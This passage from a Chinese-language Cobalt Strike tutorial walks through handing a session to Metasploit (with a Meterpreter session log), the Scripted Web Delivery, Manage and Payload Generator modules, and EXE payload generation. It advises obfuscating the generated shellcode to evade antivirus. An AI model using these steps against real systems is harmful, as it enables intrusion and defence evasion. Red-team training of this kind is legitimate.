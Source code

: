 ```powershell
spawn CS2MSF
```

或者右击被控主机，点击`Spawn`：

![image-20220425145953676](./image-20220425145953676.png)

选择`CS2MSF`即可。

则在MSF中应该收到：

```powershell
[*] http://192.168.140.133:20333 handling request from 192.168.140.132; (UUID: mcbbkmw8) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 1 opened (192.168.140.133:20333 -> 127.0.0.1 ) at 2022-04-25 02:57:09 -0400

meterpreter >
```

#### Delivery模块

主要了解的是`Scripted Web Delivery`模块。

![image-20220425150132991](./image-20220425150132991.png)

* URI Path：在访问URL时，Payload的位置
* Local Host：TeamServer服务器的地址
* Local Port：TeamServer服务器开启的端口，可以与Beacon Listener端口重复
* Listener：接受会话的监听器
* Type：类型，可以选`bitsadmin`、`powershell`、`python`

点击Launch后，CS会提供一个命令，如果忘记可以打开Manage页面，copy URL即可复制命令。

#### Manage模块

`Attacks` => `Web Drive-By` => `Manage`，可以看到开启的服务：

![image-20220425150727519](./image-20220425150727519.png)

主要用于管理团队服务器的Web服务，当然其中还有Beacon监听器。

#### Payload模块

##### Payload的生成

`Attacks` => `Packages` => `Payload Generator`，就可以打开：

![image-20220425150900703](./image-20220425150900703.png)

可以生成多种CS的Shellcode，选择好监听器以及输出语言的格式，就可以生成对应语言的ShellCode。这个模块主要是对抗杀毒的，复制ShellCode，然后自己进行混淆等，绕过杀毒软件，进行免杀处理。

##### Windows可执行文件(EXE、Stageless)的生成

这里生成EXE没啥可讲的，但是注意，如果没有使用脚本进行免杀处理的话，这里生成的EXE 100%会被查杀。

#### 后渗透测试模块
